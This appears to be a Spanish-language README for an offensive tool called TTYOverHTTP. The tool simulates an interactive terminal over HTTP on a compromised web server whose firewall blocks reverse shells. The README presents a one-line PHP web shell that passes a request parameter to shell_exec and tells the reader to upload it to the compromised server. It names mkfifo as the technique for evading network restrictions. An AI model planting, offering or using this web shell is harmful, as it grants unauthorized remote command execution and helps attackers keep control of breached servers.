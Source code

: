 # TTYOverHTTP

En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (Ej: iptables) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para obtener una TTY completamente interactiva. A través de archivos 'mkfifo', jugamos para simular una TTY completamente interactiva sobre HTTP, pudiéndonos manejar sobre el sistema cómodamente sin ningún problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```
